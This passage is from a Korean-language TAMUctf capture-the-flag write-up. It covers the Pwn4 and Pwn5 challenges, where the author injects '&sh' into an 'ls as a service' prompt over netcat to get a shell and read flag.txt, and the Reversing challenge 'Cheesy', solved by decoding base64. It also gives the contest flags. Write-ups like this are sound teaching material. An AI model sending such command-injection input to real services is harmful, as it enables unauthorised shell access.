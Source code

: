 ex 2)

```sh
$ nc pwn.tamuctf.com 4324
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
&sh
Result of ls &sh:
flag.txt
pwn4
cat flag.txt
gigem{5y573m_0v3rfl0w}
```

**FLAG : gigem{5y573m_0v3rfl0w}**

<br />

### Pwn5

""**감**""... 

```sh
$ nc pwn.tamuctf.com 4325
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
&sh
Result of ls &sh:
flag.txt
pwn5
cat flag.txt
gigem{r37urn_0r13n73d_pr4c71c3}
```

**FLAG : gigem{r37urn_0r13n73d_pr4c71c3}**

<br />

## Reversing

이지한데 어려운건 너무 어려웠다.

### Cheesy

Base64 느낌의 인코딩이 많은거 같아서 그냥 다 디코딩해주었다. 그 중에서 플래그가 있었다.

```python
import base64
print base64.b64decode('Z2lnZW17M2E1eV9SM3YzcjUxTjYhfQ==')
```

**FLAG : gigem{3a5y_R3v3r51N6!}**

<br />

### Snakes over cheese

